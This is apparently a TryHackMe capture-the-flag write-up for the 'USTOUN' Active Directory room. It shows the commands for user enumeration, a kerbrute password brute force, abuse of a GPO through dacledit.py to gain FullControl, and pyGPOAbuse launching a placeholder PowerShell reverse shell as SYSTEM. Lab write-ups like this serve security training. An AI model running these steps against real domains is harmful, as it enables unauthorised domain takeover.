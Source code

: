 # TryHackMe - USTOUN

I started with a port scan.

![Screenshot0](./screenshots/0.png)

From the nmap output it is easy to see that this is a domain controller.
The first thing I did was to use the `--rid-brute` option of CrackMapExec to see if I could find out usernames.

Besides the standard Windows users, only one user named `SVC-Kerb` was of interest.

![Screenshot1](./screenshots/1.png)

Since we only have one interesting user, I decided to bruteforce him using kerbrute.

![Screenshot2](./screenshots/2.png)

And I got a result!

I tried to log in using `evil-winrm` but failed.

Unfortunately, there is no user added to the `Remote Management Users` group on the system, which is confirmed by the group enumeration of `CrackMapExec`.

![Screenshot3](./screenshots/3.png)

Therefore, I first collected remote information about the AD environment using `bloodhound-python` in order to be able to display it graphically.

In Bloodhound the following edge was interesting:

__WriteDACL on GPO:__

![Screenshot4](./screenshots/4.png)

Bloodhound is a really convenient tool as it also provides us with abuse information.

![Screenshot5](./screenshots/5.png)

Okay, now to the exploitation steps.

### 1. Read DACL called by DN

```bash
python3 dacledit.py -action read -target-dn "CN={6AC1786C-016F-11D2-945F-00C04FB984F9},CN=POLICIES,CN=SYSTEM,DC=USTOUN,DC=LOCAL" -dc-ip <IP> ustoun.local/SVC-Kerb:<PASS>
```
![Screenshot6](./screenshots/6.png)

### 2.  WriteDacl to this GPO, and grant SVC-Kerb the GenericAll privilege

```bash
python3 dacledit.py -action write -target-dn "CN={6AC1786C-016F-11D2-945F-00C04FB984F9},CN=POLICIES,CN=SYSTEM,DC=USTOUN,DC=LOCAL" -principal SVC-Kerb -rights FullControl -ace-type allowed -dc-ip <IP> ustoun.local/SVC-Kerb:<PASS>
```

![Screenshot7](./screenshots/7.png)

### 3. Check again ACE

![Screenshot8](./screenshots/8.png)

```bash
python3 dacledit.py -action read -target-dn "CN={6AC1786C-016F-11D2-945F-00C04FB984F9},CN=POLICIES,CN=SYSTEM,DC=USTOUN,DC=LOCAL" -dc-ip <IP> ustoun.local/SVC-Kerb:<PASS>
```

![Screenshot9](./screenshots/9.png)

### 4. Exploit GPO

Since we now have full control over the GPO from which our domain controller is affected, we can take advantage of this.

We use the tool [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse) which helps us to create a `Scheduled Task` which is then finally executed as `SYSTENM` on the computer.

By default `pyGPOAbuse` creates a user john on the target system which is then added to the administrator group.

With the flag `-Command` we can use a separate command for exploitation and I passed a Powershell Base64 encoded rev-shell code to the flag and got a reverse shell as `SYSTEM`.

```bash
python3 pygpoabuse.py -dc-ip <IP>> -gpo-id 6AC1786C-016F-11D2-945F-00C04FB984F9 ustoun.local/SVC-Kerb:<PASS>> -command <POWERSHELL REVERSE>
```

![Screenshot10](./screenshots/10.png)

A little wait and I got my reverse shell and picked up the flags.

![Screenshot11](./screenshots/11.png)

![Screenshot12](./screenshots/12.png)
